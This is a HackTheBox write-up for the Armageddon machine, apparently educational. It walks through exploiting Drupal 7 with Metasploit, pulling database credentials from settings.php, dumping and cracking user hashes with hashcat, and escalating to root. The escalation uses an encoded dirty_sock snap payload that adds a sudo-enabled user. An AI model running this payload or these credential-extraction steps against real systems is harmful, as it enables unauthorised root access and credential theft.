


# HackTheBox - Armageddon

## Introduction
This box was pretty easy linux box with a well known vulnerability on Drupal 7. With that said, let's dive into it.

### 1. Enumeration
When i joined the machine, I got an *ip_address* of `10.10.10.233`. The first thing i did was to look if a website is present. I fired up my browser and checked the url with given ip address. There was a website with some footer saying `Powered By Armageddon`. I searched for any CMS provider with that name but found nothing. Then i took a sneak peek at the source code finding that this was a `Drupal` website.


Previously I have heard a lot about vulnerabilities in `Drupal` websites, so I checked for well known vulnerabilities of the version of **Drupal** this site is running. 



I saw few **RCE**s related to **Drupal 7**. Then i quickly fired up the `metasploit` and searched for drupal exploit.


The second one looked quite promising to me. 

### 2. Executing Payload
So I used this one for the exploit. Setting options for the selected exploit: 


Executing the payload got us a meterpreter session


Now we quickly find out that we aren't allowed to access home directory with the user privileges we have.

Enumerating files that are in `/var/www/html/sites/` we find that there is a `settings.php` file. Taking a close look at that file, we see some credentials exposed.


Now we see that we have got database credentials for drupal user. Now we can see if there are some information leakage over the database. I quickly turned my meterpreter session to shell session and started enumerating the database:


Then i enumerated for drupal database with this payload:
```
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show tables;'
```
and i saw a table named users.

I quickly fired my payload as follows:
```
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select * from users;'
```
And i found following credentials:
```
user                password
brucetherealadmin   $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
test123             $S$DClJVtNTCpDMmQd4XJvsyeBa6b1PHsb3VXUERatQCS.WnEe/PPvp
```

I saved the hash in file named *hash* and using hashcat i tried to crack the password for `brucetherealadmin`: 
```
hashcat -m 7900 hash /path/to/rockyou.txt
```

Hashcat cracked the password for the user as:
```
brucetherealadmin: booboo
```

now ssh connection with the following credentials gave us user flag.
```
ssh brucetherealadmin@10.10.10.233
```


### 3. Privilege Escalation
Let's first check for sudo permissions.



We saw that we are allowed to use snap with root permission. A quick google search showed that there exist a version of snap which was vulnerable to privilege escalation.

Installing the exploitable package:
```
python2 -c 'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" + "A"*4256 + "=="' | base64 -d > root.snap  
```

Now running it we have:


And hence we get the root flag.